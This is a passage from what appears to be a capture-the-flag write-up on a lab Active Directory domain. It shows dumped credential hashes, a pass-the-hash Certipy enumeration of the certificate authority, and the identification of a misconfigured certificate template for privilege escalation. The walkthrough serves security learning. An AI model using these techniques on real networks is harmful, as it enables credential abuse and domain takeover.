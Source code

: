 ```
         * SHA1     : 8007e878e7cd47f7c28d7692c7ca244e0fca07ba
         * DPAPI    : bafcaae286442922333bd3d1b6e3bbe5
        tspkg :
        wdigest :
         * Username : Дарья
         * Domain   : CONTI
         * Password : (null)
        kerberos :
         * Username : Дарья
         * Domain   : CONTI.RU
         * Password : (null)
        ssp :
        credman :
        cloudap :       KO
```

From the BloodHound point of view, this user does not have any interesting privileges, nor any privileges on the `PC1.CONTI.RU` computer.

We have to find another way to escalate privileges. At the beginning of the challenge, we had to play with PKINIT and PFX. Our nmap scan reveals that there is an ADCS role installed on the domain controller and we didn't look at it yet. Time for ADCS information gathering!

We use Certipy (https://github.com/ly4k/Certipy) excellent tool to enumerate ADCS objects and permissions:
```
$ certipy find -hashes "00000000000000000000000000000000:7a0f1f2a2b2a749312b97777b61cd6a5" 'CONTI.RU/Дарья@10.0.20.11'
Certipy v2.0.9 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Trying to get CA configuration for 'CONTI-DC1-CA' via CSRA
[!] Got error while trying to get CA configuration for 'CONTI-DC1-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'CONTI-DC1-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'CONTI-DC1-CA'
[*] Found 12 enabled certificate templates
[*] Saved text output to '20220401225602_Certipy.txt'
[*] Saved JSON output to '20220401225602_Certipy.json'
[*] Saved BloodHound data to '20220401225602_Certipy.zip'. Drag and drop the file into the BloodHound GUI
```

User E (RID = 1122 on the domain) found on PC1.CONTI.RU workstation can use the template `UserAfterLeak` to generate certificates (`Enroll` privilege) signed by the `CONTI-DC1-CA` certificate authority. The template has the properties we want to escalate privileges:

- **Client Authentication** so that we can generate certificate to authenticate users
- **EnrolleeSuppliesSubject** so that we can choose arbitrary Subjet Alternative Name (SAN)
- Does not require manager approval
